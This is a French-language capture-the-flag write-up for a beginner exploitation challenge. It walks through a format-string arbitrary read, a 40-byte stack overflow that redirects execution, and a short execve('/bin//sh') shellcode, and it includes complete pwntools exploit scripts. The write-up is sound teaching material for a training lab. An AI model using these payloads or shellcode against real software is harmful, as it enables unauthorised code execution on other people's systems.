# Writeup - MeiMei Quest

**Category**: PWN  \
**Author**: [Nosiume](https://github.com/Nosiume) \
**Difficulty**: Très Facile \
**Challenge Description**: \


Mei Mei est encore coincée dans un sac de frites... Saurez-vous la sauver de ce malheur terrible ? \
Quête par quête vous devrez montrer votre compréhension des concepts de base du pwn pour sauver ce petit chat trop mignon :p

**Artifact Files**: \
[chall.c](../files/chall.c) \
[meimei_quest](../files/meimei_quest)

## Challenge overview

Pour ce challenge, on nous donne directement les sources mais elles ne sont pas nécessaires techniquement pour résoudre le challenge,
elles ont été ajoutées pour être sûr que n'importe qui faisant son premier chall de pwn puisse comprendre les bugs en faisant ses recherches
et être capable de résoudre celui-ci.

En se connectant sur la remote, nous arrivons sur l'interface suivante : 



En effet, c'est terrible mais ce petit chat trop choupi s'est encore coincé dans un pack de frites... \
Heureusement pour nous, on a toutes les informations pour l'aider ! On nous donne une adresse de mémoire où nous devons récupérer un "numéro de téléphone" et la mention du mot "FORMAT" devrait aiguiller la plupart des pwners aguerris ! 

Nous sommes bien face à un bug format string, visible dans le code et par le test : 




*(PS : Si vous avez une config néovim super stylée comme moi vous verrez même un warning qui signale le bug :O)*

## Quête 1 : Format String

En regardant le code, on peut comprendre que la donnée qui est demandée par le programme pour avancer à la quête suivante est le numéro de uncle bao bao. \
Celui-ci est généré aléatoirement à chaque exécution du programme : 



Le but ici est donc assez simple : Il faut utiliser la format string comme une primitive **Arbitrary Read** et lire la chaîne de caractères à l'adresse de mémoire donnée. \
*([Documentation Intéressante pour ce genre de cas](https://ir0nstone.gitbook.io/notes/binexp/stack/format-string))*

Nous allons donc devoir dans un premier temps trouver l'offset de format pour atteindre notre buffer d'input sur la stack. On peut faire ça facilement en envoyant un grand nombre de `%p` en entrée : 



On voit qu'à partir du **sixième** `%p`, le pointeur affiché correspond aux valeurs ASCII de `%p %p ...`. C'est donc le début de notre buffer ! \
On peut vérifier ça avec un payload simple : `AAAAAAAA%6$p`. Si 0x4141414141414141 s'affiche on a bien le bon offset !



Super ! Maintenant, il ne nous reste plus qu'à faire en sorte que notre sélecteur de format `%...$p` affiche l'adresse qui nous a été donnée par Mei Mei.
Une fois qu'on arrivera à faire cela, on pourra changer `%p` en `%s` ce qui devrait nous afficher la chaîne de caractères à l'adresse correspondante.

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('../src/build/meimei_quest')

HOST = "127.0.0.1"
PORT = 1337

if args.REMOTE:
    io = remote(HOST, PORT)
else:
    io = gdb.debug(elf.path, gdbscript=gs, cwd="../src/") if args.GDB else process(cwd="../src")

context.log_level = 'info'

io.recvuntil(b'0x')

target = int(io.recvuntil(b'.')[:-1], 16)
info("bao bao number @ " + hex(target))

payload = b'%7$p' + b' '*4 + p64(target)
io.sendlineafter(b'> ', payload)
io.interactive()
```

Ce petit script fait exactement cela ! On peut voir que la sortie obtenue nous affiche l'adresse correctement. 



En changeant le `%7$p` en `%7$s`, on affiche bien le numéro !



On peut maintenant entrer le numéro obtenu en réponse à la question et avancer à la quête numéro 2 ! 

## Quête 2 : Buffer Overflow (ret2win style)

Une fois le numéro entré, on arrive sur cette interface : 



La description est assez claire, nous devons sauter à l'adresse donnée pour avancer à la quête suivante ! Pour cela on nous donne un indice clé : `It's only 40 bytes away` nous indique le décalage pour réécrire le registre **RIP**. On peut en déduire assez facilement qu'il s'agit donc d'un bug type **Buffer Overflow**.

Encore une fois, on peut vérifier cette hypothèse dans le code et par le test en envoyant une grande quantité de `A` par exemple.



On peut voir que le signal **SIGSEGV** a été trigger ce qui correspond bien à une **Segmentation Fault** causée par un buffer overflow !

L'erreur est très visible dans le code où une lecture de taille **48 octets** est faite dans un buffer d'une taille d'uniquement **32 octets** : 



Encore une fois je renvoie vers [la très bonne documentation d'ir0nstone](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win) pour les débutants en pwn qui explique en détail comment effectuer un **ret2win** à partir d'un buffer overflow.

Dans notre contexte nous avons un buffer de **32** octets et **8** octets de rbp enregistré. Nous devons donc envoyer **40** octets avant de réécrire l'adresse de retour de la fonction et de pouvoir rediriger le flow d'exécution du programme là où on veut !

Nous pouvons donc reprendre notre exploit précédent et rajouter quelques lignes pour valider cette étape : 

```py
# On récupère et envoie le numéro automatiquement
io.recvuntil(b' : ')
number = io.recv(14)
io.sendlineafter(b'> ', number)

io.recvuntil(b'jump to ')
target = int(io.recvuntil(b',')[:-1], 16)
info("step2 @ " + hex(target))
payload = b'A'*40 + p64(target)

io.sendlineafter(b'> ', payload)
io.interactive()
```

En exécutant le script mis à jour, on arrive bien sur la dernière quête de notre aventure : 



## Quête 3 : Shellcoding

Pour cette dernière étape on nous explique que notre entrée sera interprétée comme un shellcode ! Un shellcode est tout simplement une suite d'instructions valide et exécutable par le processeur. En envoyant donc une suite d'instructions bien fabriquée, on peut ouvrir un terminal à travers ce programme et prendre contrôle de l'hôte distant !



Dans notre cas, on peut voir que nous sommes limités à 32 octets pour notre shellcode. On peut ici choisir de faire notre propre shellcode (ce que je recommande pour ceux qui veulent en apprendre plus sur le shellcoding et le pwn en général) ou utiliser un shellcode connu trouvé sur internet.

Pour la simplicité et le focus de ce challenge, je vais utiliser [ce shellcode](https://www.exploit-db.com/exploits/46907).

On peut finir notre exploit en rajoutant l'envoi du shellcode avec pwntools : 

```py
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
io.sendlineafter(b'> ', shellcode)
io.interactive()
```

L'exploit complet ressemble donc à ceci : 

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('../src/build/meimei_quest')

HOST = "127.0.0.1"
PORT = 1337

gs = """
b *step3+345
continue
"""

if args.REMOTE:
    io = remote(HOST, PORT)
else:
    io = gdb.debug(elf.path, gdbscript=gs, cwd="../src/") if args.GDB else process(cwd="../src")

context.log_level = 'info'

io.recvuntil(b'0x')

target = int(io.recvuntil(b'.')[:-1], 16)
info("bao bao number @ " + hex(target))

payload = b'%7$s' + b' '*4 + p64(target)
io.sendlineafter(b'> ', payload)
io.recvuntil(b' : ')

number = io.recv(14)
io.sendlineafter(b'> ', number)

io.recvuntil(b'jump to ')
target = int(io.recvuntil(b',')[:-1], 16)
info("step3 @ " + hex(target))
payload = b'A'*40 + p64(target)

io.sendlineafter(b'\n> ', payload)

shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
io.sendlineafter(b'shellcode !', shellcode)
io.interactive()
```

Et on obtient bien le flag ! Merci d'avoir sauvé Mei Mei <3


